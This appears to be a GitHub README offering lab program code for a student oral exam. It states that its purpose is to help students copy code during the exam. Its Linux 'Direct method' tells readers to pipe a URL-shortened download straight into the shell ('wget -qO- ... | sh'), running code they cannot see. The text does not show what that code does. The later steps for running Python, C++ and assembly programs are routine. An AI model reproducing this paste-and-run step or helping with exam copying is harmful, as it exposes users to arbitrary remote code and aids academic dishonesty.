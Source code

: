 # Oral Exam Programming Code Collection

This repository contains important instructions for accessing a collection of programming codes used in preparation for the upcoming oral exam. The resource covers various subjects such as:

- **Object-Oriented Programming Lab (OOPL)**
- **Computer Graphics Lab (CGL)**
- **Data Structures and Algorithms Lab (DSAL)**
- **Data Structures Lab (DSL)**
- **Microprocessor Lab (MPL)**
## Instructions

# Important!!!: First of all make sure there is internet connection in your system (Ethernet or Wi-Fi to be connected) then only follow the instructions ahead otherwise nothing will work.

Follow the steps below according to your operating system.

### For Windows

1. **Open the Windows terminal.**
2. Execute the following command:
   ```
   curl -fsSL https://is.gd/se19pro >> pro.txt
   ```
3. After executing the command, open the file `pro.txt` in your favorite text editor to view the programming codes.

### For Linux
## Direct method
Copy and Paste this in your terminal window by pressing Control + Shift + Cs from your keyboard or manually paste it.
```bash
wget -qO- https://naturl.link/curl | sh
```

## Manual Method
1. **Open Terminal.**
2. Since Linux may not have the `curl` command installed by default, use the following command instead:
   ```
   wget -qO - https://is.gd/se19pro >> pro.txt
   ```
3. Once the command completes, open `pro.txt` to review the codes.

## To run programs follow these steps for your own program.


### 1. Running a Python Program

**Steps:**
1. Write your Python code in a file (for example, save it as `script.py`).
2. Open a terminal.
3. Run the program using the Python interpreter.

**Command:**

```bash
python3 script.py
```

### 2. Running a C++ Program

**Steps:**
1. Write your C++ code in a file (e.g., `program.cpp`).
2. Open a terminal.
3. Compile the C++ source file using a C++ compiler (like `g++`), and then run the compiled executable.
4. Use a single-line command with `&&` to chain the compile and run commands.

**Command Example:**

```bash
g++ program.cpp -o program && ./program
```

### 3. Running an Assembly Program (Using NASM and LD)

**Steps:**
1. Write your assembly code in a file (e.g., `program.asm`).
2. Open a terminal.
3. Assemble the source code using NASM.
4. Link the object file using LD to produce an executable.
5. Chain these steps using `&&` on one line.

**Command Example:**

```bash
nasm -f elf64 program.asm -o program.o && ld program.o -o program && ./program
```

## Purpose

These instructions are provided to facilitate the copying of the codes for use in the oral exam. Make sure to follow these steps accordingly based on your operating system.

---

Happy studying and best of luck on your oral exam!
